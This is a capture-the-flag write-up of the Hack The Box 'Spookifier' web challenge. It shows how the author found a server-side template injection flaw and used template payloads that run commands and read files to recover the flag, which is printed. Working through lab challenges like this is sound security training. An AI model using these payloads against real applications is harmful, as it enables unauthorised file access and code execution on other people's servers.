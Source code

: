 # Spookifier
> Write-up author: jon-brandy
## DESCRIPTION:
There's a new trend of an application that generates a spooky name for you. 
Users of that application later discovered that their real names were also magically changed, causing havoc in their life. 
Could you help bring down this application?
## HINT:
- NONE
## STEPS:
1. Let's open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209550314-bf2c9973-9be9-414b-8cbd-ff537420b4ef.png)


2. Let's input `Hallo`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209550511-9a0f8bce-71fe-48dc-9c6c-667345089714.png)


3. Notice our input displayed as the parameter value.

![image](https://user-images.githubusercontent.com/70703371/209550550-5670a127-78d8-4535-8505-92be6b862090.png)


4. Let's try to input addition. | ${1+3}

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209551500-dfbe3c18-04e6-4de8-974a-33c41024f06b.png)


5. Based from the result we got, we can suggest that the website is vuln to **SSTI**.
6. Let's input another payload.

```
${system('cat flag.txt')}
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209551600-f274c144-a0f5-4d87-bf35-e27e149b44d0.png)


7. Hmm.. try this one now:

```php
${open('/flag.txt').read()}
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209551922-8ac5bd58-36cc-4715-81b0-1f000781c9cb.png)


8. Got the flag!

## FLAG

```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```



## LEARNING REFERENCES:

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako
```

